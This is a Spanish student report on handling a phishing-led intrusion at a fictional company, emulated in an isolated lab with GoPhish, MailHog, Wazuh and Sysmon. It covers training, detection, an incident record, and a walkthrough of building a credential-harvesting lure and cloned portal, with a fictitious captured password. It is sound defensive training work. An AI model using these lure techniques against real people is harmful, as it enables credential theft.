# Gestión de un incidente de ciberseguridad
### Caso práctico: phishing, intrusión y respuesta en Nexora S.L.

**Autor:** Luis Fernando Arrosquipa
**GitHub:** Fer1399
**Módulo:** Incidentes de ciberseguridad
**Entorno:** Laboratorio virtual aislado (VirtualBox) — pruebas en equipos y redes autorizados
**Fecha:** noviembre 2026

> **Aviso.** Todo el ataque de este trabajo lo reproduje mediante **emulación de adversario** con herramientas legítimas (GoPhish y PowerShell) y **datos ficticios**. En ningún momento usé malware real. La empresa «Nexora S.L.» es inventada y el laboratorio está completamente aislado de cualquier red de producción.

---

## Índice

1. Prevención y concienciación
2. Detección y auditoría
3. Investigación y análisis
4. Respuesta y recuperación
5. Notificación y organismos de respuesta (CERT/CSIRT)
6. Simulación de la reunión del equipo de respuesta
- Herramientas utilizadas
- Conclusiones
- Fuentes consultadas
- Anexos: instalación, scripts y configuración

---

## Introducción

En este informe explico, de principio a fin, cómo gestiono un incidente de ciberseguridad en una empresa ficticia, Nexora S.L. El caso es realista: un correo de *phishing* que suplanta a Recursos Humanos roba las credenciales de una empleada, el atacante entra en su equipo, lo controla desde un servidor externo (C2) y se lleva un fichero con datos de clientes.

Para trabajarlo de forma práctica y sin riesgos, monté todo el escenario en un **laboratorio virtual aislado** y **emulé** el ataque con herramientas legítimas, sin usar malware real. A lo largo del documento recorro las cinco fases de la gestión de un incidente —prevención, detección, investigación, respuesta y notificación— y termino con una simulación de la reunión del equipo de respuesta. En cada fase junto la **teoría** (qué hago y por qué) con la **práctica** (capturas reales, resultados y los scripts que he desarrollado).

## Arquitectura del laboratorio

Para el laboratorio reproduje una pequeña red corporativa sobre VirtualBox. Conecté todas las máquinas a una **Red NAT** llamada `nexora-lab`, con direccionamiento `10.10.10.0/24`. Esa Red NAT da a las VMs **salida a internet** —que uso solo para instalarlas y actualizarlas; no he restringido explícitamente el tráfico de salida más allá de ese uso— y hace que el laboratorio **no sea accesible desde mi red doméstica**. El ataque, en cambio, es **interno**: la víctima (10.10.10.50) y el atacante (10.10.10.100) están en la misma red, así que el *beacon*, el C2 y la exfiltración ocurren **entre máquinas del propio laboratorio** y no viajan a internet.

La red tiene cinco elementos: un controlador de dominio que gestiona la empresa, un servidor donde centralizo la detección, el equipo de la víctima, la máquina del atacante y la puerta de enlace:

| Equipo | Sistema operativo | IP | Rol en el escenario |
|--------|-------------------|----|---------------------|
| DC-NEXORA | Windows Server 2025 | 10.10.10.10 | Controlador de dominio `nexora.lab` + DNS + agente Wazuh |
| SRV-SIEM | Ubuntu Server 26.04 | 10.10.10.20 | SIEM (Wazuh): detección y análisis central |
| PC-RRHH-01 | Windows 11 | 10.10.10.50 | Víctima: equipo de RRHH con Sysmon + agente Wazuh |
| KALI | Kali Linux | 10.10.10.100 | Atacante: GoPhish, MailHog y servidor C2 |
| Gateway | — | 10.10.10.1 | Puerta de enlace de la Red NAT |

Antes de empezar comprobé que la red funcionaba. Desde el controlador de dominio DC-NEXORA hice *ping* a las otras tres máquinas y todas respondieron **sin pérdida de paquetes**. Un detalle que me resulta útil para el análisis: el **TTL** de las respuestas delata el sistema operativo del destino, porque las Linux responden con TTL 64 y las Windows con TTL 128.



---

## 1. Prevención y concienciación

La mejor defensa es que el incidente no llegue a ocurrir. En este primer apartado identifico las amenazas a las que se expone Nexora S.L. y planteo las medidas de prevención y concienciación para reducir el riesgo.

### 1.1 Riesgos y amenazas principales

El principal riesgo es el **phishing y la ingeniería social**: correos que engañan al empleado para que haga clic o entregue sus credenciales. A partir de ahí se encadenan otras amenazas: la ejecución de **malware** a través de adjuntos con macros, el **robo de credenciales** y el **movimiento lateral** por el dominio (el atacante salta de un equipo a otro), y finalmente la **exfiltración de datos personales** de clientes, que además de un problema de seguridad es una brecha con implicaciones legales (RGPD). Un riesgo transversal es la **ausencia de procedimientos de respuesta**: sin un plan, la organización improvisa cuando más necesita actuar con criterio.

### 1.2 Normas de seguridad para los puestos

Para reducir esos riesgos propongo unas normas básicas en cada puesto de trabajo. Los usuarios deben **bloquear la sesión** al ausentarse y usar **contraseñas robustas** gestionadas por la política de dominio. Se aplica el **principio de mínimo privilegio**: nadie trabaja con permisos de administrador en su equipo. El antivirus/EDR permanece activo, las **macros de Office se deshabilitan** por defecto y las actualizaciones se instalan automáticamente. Por último, se habilita un **canal para reportar correos sospechosos**, de modo que un empleado que dude pueda avisar sin miedo a equivocarse.

### 1.3 Plan de formación y concienciación

La concienciación la trabajo con **formación periódica** sobre cómo identificar un phishing y con **simulacros controlados** —como el de este propio trabajo— que me permiten medir cuántos empleados pican y mejorar a partir de ahí. Como apoyo visual preparé dos materiales propios: una **guía de buenas prácticas** para el personal y un **cartel recordatorio** para las zonas de trabajo.



El texto completo de la guía de buenas prácticas se incluye a continuación:

Guía breve para todo el personal. Objetivo: reducir el riesgo de incidentes como el phishing de RRHH analizado en este trabajo.

### 1. Correo y phishing (la puerta de entrada más común)
- **Desconfía de la urgencia.** Mensajes que amenazan con "suspender tu cuenta" o ponen un plazo corto buscan que actúes sin pensar.
- **Revisa el remitente y el enlace.** Pasa el ratón por encima del botón o enlace y comprueba la dirección real **antes** de pulsar. Si no coincide con el dominio oficial, no entres.
- **Nunca introduzcas tu contraseña** a través de un enlace recibido por correo. Accede siempre escribiendo tú la dirección del portal.
- **Ante la duda, reporta.** Reenvía el correo sospechoso al canal de RRHH/IT y no lo borres hasta que lo revisen.

### 2. Contraseñas y acceso
- Usa **contraseñas largas y únicas** para cada servicio; apóyate en un gestor de contraseñas.
- Activa el **doble factor (MFA)** siempre que esté disponible.
- **Bloquea la sesión** (Win+L) al levantarte del puesto.

### 3. Puesto de trabajo
- Trabaja con un usuario **sin permisos de administrador** para las tareas del día a día.
- Mantén el **sistema y el antivirus actualizados**; no desactives las protecciones.
- **No habilites macros** en documentos de Office que lleguen por correo, aunque el remitente parezca conocido.
- No conectes **USB desconocidos** ni instales software fuera de los canales autorizados.

### 4. Datos de clientes (RGPD)
- Trata los datos personales solo en los sistemas autorizados; **no los copies** a equipos o nubes personales.
- Si sospechas que ha habido un acceso o fuga de datos, **avisa de inmediato**: cuando la brecha obliga a notificar (porque supone un riesgo para los derechos y libertades de las personas), la organización dispone de un plazo máximo de **72 h** para comunicarlo a la autoridad, así que cada minuto cuenta.

### 5. Si crees que has caído en un ataque
1. **No lo ocultes.** Avisa cuanto antes a IT/RRHH
2. Si has introducido tu contraseña en una web sospechosa, **cámbiala ya** en el portal real.
3. Anota qué pasó (correo, hora, enlace) para ayudar a la investigación.
4. No apagues el equipo si te lo pide el equipo técnico: puede necesitar la evidencia.

---
> Recuerda: la seguridad es cosa de todos. Un solo clic puede abrir la puerta; un solo aviso a tiempo puede cerrarla.

### 1.4 Fundamentos de criptografía aplicados al caso

La criptografía sostiene buena parte de las medidas de seguridad y, en este trabajo, aparece de forma concreta en la preservación de evidencias. Los conceptos clave son:

- **Cifrado simétrico (AES):** usa la misma clave para cifrar y descifrar; es rápido y adecuado para proteger datos en reposo.
- **Cifrado asimétrico (RSA):** emplea un par de claves, pública y privada; permite el intercambio seguro de información y la firma.
- **Funciones hash (SHA-256):** generan una huella irreversible de un fichero. Prueban que el fichero **no ha cambiado** (integridad), pero por sí solas no acreditan **quién** lo creó (autenticidad); para eso se combinan con una firma. Son la base para preservar las evidencias (apartado 3).
- **Certificados digitales y PKI:** vinculan una identidad con su clave pública a través de una autoridad de certificación (CA).
- **Firma electrónica (firma digital):** mecanismo de **firma y verificación**. El firmante calcula el hash del documento y genera la firma con su **clave privada** (con un esquema como RSA-PSS o ECDSA); cualquiera la **verifica con la clave pública**. Aporta autenticidad, integridad y no repudio.
- **Diffie-Hellman:** permite acordar una clave secreta sobre un canal inseguro.

> **Conexión práctica.** El mismo SHA-256 que define la integridad de un fichero es el que Sysmon captura de cada binario ejecutado, el que se usa en la cadena de custodia y el que se consulta en VirusTotal (apartado 3). La teoría se vuelve, así, una herramienta de investigación.

---

## 2. Detección y auditoría

Detectar a tiempo es lo que separa un susto de un desastre. En este apartado clasifico el incidente, identifico los sistemas afectados y despliego la infraestructura de detección que luego me deja ver el ataque en tiempo real.

### 2.1 Clasificación y gravedad

Clasifico el incidente como una **intrusión con acceso no autorizado** originada por phishing:

| Campo | Valor |
|-------|-------|
| Tipo | Intrusión vía phishing + malware (acceso no autorizado) |
| Vector | Correo que suplanta a RRHH con un enlace malicioso |
| Taxonomía | Intrusión + contenido abusivo (phishing), según ENISA/INCIBE |
| Activos afectados | PC-RRHH-01, credenciales de usuario y datos de clientes |
| Gravedad | **ALTA** por la sospecha de exfiltración de datos personales; pasaría a **CRÍTICA** si se confirma |

### 2.2 Sistemas afectados

El equipo **PC-RRHH-01** es el *paciente cero*: es donde se abre el correo y se roban las credenciales. A partir de él, el **controlador de dominio DC-NEXORA** queda en riesgo, porque unas credenciales válidas podrían usarse para moverse por el dominio. También se ven implicados la **carpeta compartida** que contiene el CSV de clientes y la **salida a internet** del equipo, por la que el atacante establece la comunicación con su servidor externo.

### 2.3 Herramientas de detección y registros

Para la detección me apoyo sobre todo en **Wazuh**, como SIEM central que recoge y correla los eventos, y en **Sysmon**, para la telemetría detallada del endpoint. Como apoyo cuento además con el **Visor de eventos** de Windows, el **MITRE ATT&CK Navigator** para encuadrar las técnicas del atacante y **Wireshark** para inspeccionar el tráfico a nivel de paquete. En esta práctica el análisis de las conexiones con el atacante lo resolví combinando un script propio sobre el registro del servidor C2 con una **captura de Wireshark** que corrobora la exfiltración byte a byte (apartado 3.4).

Las fuentes de registro que vigilo son las que cuentan la historia del ataque: los **logs del antivirus** (Defender) y del **firewall**, los **eventos del sistema operativo** (inicios de sesión 4624/4625 y creación de procesos 4688), la **telemetría de Sysmon** (procesos, conexiones de red y cambios en ficheros) y el **tráfico de red**, donde se observan el *beacon* periódico hacia el C2 y la exfiltración.

### 2.4 Despliegue de la detección

Sobre el servidor SRV-SIEM instalé **Wazuh 4.9.2** en modo todo-en-uno (indexador, gestor y panel), accesible en `https://10.10.10.20`. En el equipo de la víctima desplegué el **agente de Wazuh junto con Sysmon**, de modo que cada proceso, conexión o cambio en el sistema llega al SIEM para su análisis. El agente quedó conectado y reportando correctamente.



Una vez instalado, el agente de la víctima aparece en estado **Active** en la consola, identificado como PC-RRHH-01 (ID 001, IP 10.10.10.50), lo que confirma que la telemetría llega al SIEM:



Desde el panel del agente consulto el resumen de eventos, el mapeo automático con **MITRE ATT&CK** y el resultado del escaneo de configuración de seguridad (SCA). Ese escaneo evaluó el equipo frente al *benchmark* **CIS Microsoft Windows 11** y me dio 114 comprobaciones superadas y 273 fallidas (un 29 % de cumplimiento), una idea realista del estado de endurecimiento de un equipo recién instalado:



### 2.5 OSINT de IPs, dominios y hashes

Como complemento a la detección interna, contrasto los indicadores observados (direcciones IP, dominios y hashes de ficheros) con fuentes de inteligencia abiertas (OSINT): **VirusTotal**, **AbuseIPDB** y **Shodan**. La reputación la automatizo con un script propio (VirusTotal/AbuseIPDB) y, para ver la superficie de exposición del atacante, me apoyo en Shodan, como explico en el apartado 3.

### 2.6 Ficha de registro del incidente

Consolido toda la información anterior en una ficha que acompaña al incidente durante toda su gestión y me sirve de referencia:

| Campo | Contenido |
|-------|-----------|
| ID del incidente | INC-2026-001 |
| Fecha y hora de detección | 14/11/2026, 23:37 (CET) |
| Detectado por | Departamento de Informática (alertas de Wazuh) |
| Tipo de incidente | Intrusión vía phishing con sospecha de exfiltración |
| Vector de entrada | Correo que suplanta a RRHH con enlace malicioso |
| Activos afectados | PC-RRHH-01 (10.10.10.50), credenciales de `rrhh.ana`, CSV de clientes |
| Indicadores (IOC) | IP del C2 10.10.10.100; portal falso; hashes recogidos en `iocs.csv` |
| Gravedad | ALTA (pasa a CRÍTICA si se confirma la exfiltración) |
| Técnicas MITRE | T1566.002, T1056.003, T1059.001, T1033, T1087, T1071, T1041, T1078, T1021.002 |
| Estado | En investigación → contención |
| Responsable | Coordinador del equipo de respuesta |
| Acciones realizadas | Detección en el SIEM, preservación de evidencias y análisis OSINT |
| Próximos pasos | Aislar el equipo, bloquear el C2, revocar credenciales y notificar a la AEPD |

---

## 3. Investigación y análisis

Este es el núcleo práctico del trabajo: reproduzco el ataque completo paso a paso y, acto seguido, lo investigo como lo haría un analista, preservando las evidencias y apoyándome en mis propios scripts.

### 3.1 Reproducción del ataque (emulación de adversario)

Reproduzco el ataque en dos fases encadenadas. Primero monto una campaña de **phishing** con GoPhish y MailHog: un correo que suplanta a RRHH lleva a la víctima a un portal falso donde entrega sus credenciales. Después simulo con PowerShell (`emular-ataque.ps1`) la fase de **ejecución y post-explotación**: reconocimiento del sistema, acceso al CSV de clientes, comunicación periódica con el C2 y exfiltración del fichero.

#### Construcción de la campaña de phishing (GoPhish)

Monto la campaña en GoPhish con cuatro piezas. La primera es el **perfil de envío** (*Sending Profile*), que define el servidor de correo saliente; lo apunto a MailHog, que actúa como *buzón trampa* y evita que ningún correo salga a internet real:



La segunda pieza es el **grupo de destinatarios**, los empleados de RRHH de Nexora (datos ficticios) a los que se dirige el simulacro:



La tercera es la **plantilla del correo**, el mensaje que suplanta a RRHH e incorpora el enlace malicioso mediante la variable `{{.URL}}` y un píxel de seguimiento con `{{.Tracker}}` que permite saber si la víctima abre el correo:


La cuarta es la **página de aterrizaje** (*Landing Page*), un clon del portal del empleado con la opción de **captura de credenciales** activada y una redirección final para no levantar sospechas tras el robo:


#### Entrega y ejecución del ataque

Lanzada la campaña, el correo sale de GoPhish y lo recoge **MailHog**, el buzón trampa del laboratorio. En su bandeja aparecen los mensajes de «Recursos Humanos» dirigidos a los empleados objetivo:



Si abro el correo, veo el señuelo tal y como le llega a la víctima: un mensaje HTML que imita a RRHH de Nexora, con un **pretexto de urgencia** (verificar las credenciales antes del 30 de noviembre o la cuenta quedará «suspendida»), la firma de una técnica inventada y un botón **«Verificar mi cuenta»** que enlaza al portal falso (`http://10.10.10.100?rid=...`). Es un ejemplo de manual de ingeniería social: autoridad, urgencia y miedo a perder el acceso.


Al pulsar el botón, la víctima llega al **portal falso** de captura de credenciales, un clon del «Portal del Empleado» servido por GoPhish e indistinguible del real a ojos de un usuario desprevenido:


#### Resultado del phishing

La víctima introdujo sus credenciales, que quedaron capturadas en claro. GoPhish registra toda la cronología del ataque para `rrhh.ana@nexora.lab`: *Email Sent → Email Opened → Clicked Link → Submitted Data*. Las credenciales obtenidas fueron:

```
username: rrhh.ana@nexora.lab
password: Hola_1234
```

> **Nota.** La credencial mostrada es un valor **ficticio de demostración** introducido durante el simulacro; no corresponde a ninguna cuenta real. Es, además, **la misma credencial (`rrhh.ana` / `Hola_1234`) que se reutiliza en el apartado 3.6** para autenticarse contra el controlador de dominio: así queda cerrada la cadena *robo de credencial → reutilización en el dominio*. En términos de MITRE ATT&CK, esta fase combina **T1566.002** (*Spearphishing Link*, phishing con enlace) y **T1056.003** (*Web Portal Capture*, captura de credenciales en un portal web).

La siguiente captura muestra el embudo completo de la campaña para la víctima Ana Prueba, con el estado final **Submitted Data** y las credenciales capturadas en el detalle del evento:



Nada más enviar las credenciales, el portal falso **redirige a la víctima a una página de confirmación** —*«Datos verificados correctamente»*— que simula el acceso correcto al Portal del Empleado y anuncia una redirección a la intranet corporativa. Es el toque final de la ingeniería social: la víctima cree que todo ha ido bien y **no sospecha que acaba de entregar su contraseña**, lo que da tiempo al atacante a usarla antes de que nadie dé la alarma.



A nivel de campaña, el panel de GoPhish resume el éxito del simulacro (*Phishing Success Overview* de «Phishing RRHH - Nov2026 v2»): de 2 correos enviados, 2 fueron abiertos, 1 hizo clic y 1 entregó sus datos, con 0 reportados. Es una métrica directamente aprovechable para justificar la formación del apartado 1:

